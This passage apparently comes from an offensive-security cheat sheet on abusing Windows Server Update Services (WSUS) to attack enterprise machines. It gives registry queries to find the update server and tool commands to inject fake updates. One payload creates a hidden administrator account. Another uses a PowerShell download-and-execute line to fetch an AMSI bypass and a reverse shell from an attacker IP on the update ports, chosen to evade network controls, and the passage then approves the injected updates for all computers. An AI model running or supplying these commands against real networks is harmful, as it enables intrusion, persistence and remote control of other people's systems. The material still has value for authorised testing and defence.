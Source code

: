 ````
  - WSUS without SSL encryption
  - Only deliver binaries signed by MS, such as psexec
  - Must perform arp spoofing or tamper with the system's proxy settings 
- https://github.com/ctxis/wsuspect-proxy
- https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf

#### Identify usage of WSUS
```
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\Au /v UseWUServer
```

#### Retrieve WSUS URL
```
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
```

### Injecting fake update - ARP spoofing
- https://github.com/pimps/wsuxploit
- If unable to perform ARP Spoofing due to an arpspoof issue, use bettercap while the wsuxplit.sh is running.
  - https://github.com/evilsocket/bettercap 

### Inject fake update
```
.\wsuxploit.sh <TARGE IP> <WSUS IP> <WSUS PORT> <PATH TO SIGNED BINARY>
```

### Injecting fake update - WPAD injection
#### Check if automatic detection of the proxy is performed
- If the 5th byte of the result of the query is even, automatic detection of the proxy may be set in Internet Explorer. Then we can use a poisoner like Responder or Inveigh to perform WPAD injection.
```
req query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections"
```

### Injecting fake update - Access to WSUS server
- WSUS server is most likely be interconnected to servers containing sensitive information.
- After comprimising the WSUS server it might be possible to acces networks you weren't able before.
- Inject a fake update directory to the WSUS server
  - https://github.com/AlsidOfficial/WSUSpendu 

#### Update - Make new user
```
.\Wsuspendu.ps1 -Inject -PayloadFile .\PsExec64.exe -PayloadArgs '-accepteula -s -d cmd.exe /c "net user <USER> <PASSWORD> /add && net localgroup Administrators <USER> /add"' -ComputerName <COMPUTER>
```

#### Update - Rev shell
- Windows update ports are 8530 and 8531, when creating a rev shell use those if the network is tight/airgapped!
```
.\WSUSpendu.ps1 -Inject -PayloadFile .\PsExec64.exe -PayloadArgs 'powershell iex (New-Object Net.WebClient).DownloadString("http://xx.xx.xx.xx:8530/amsi.txt"); iex (New-Object Net.WebClient).DownloadString("http://xx.xx.xx.xx:8530/Invoke-PowerShellTcp.ps1")'
```

#### Get unnaproved updates and approve them
```
Get-WsusUpdate -Approval Unapproved
Get-WsusUpdate -Approval Unapproved | Approve-WsusUpdate -Action Install -TargetGroupName "All Computers"
```

## S4U2self
````
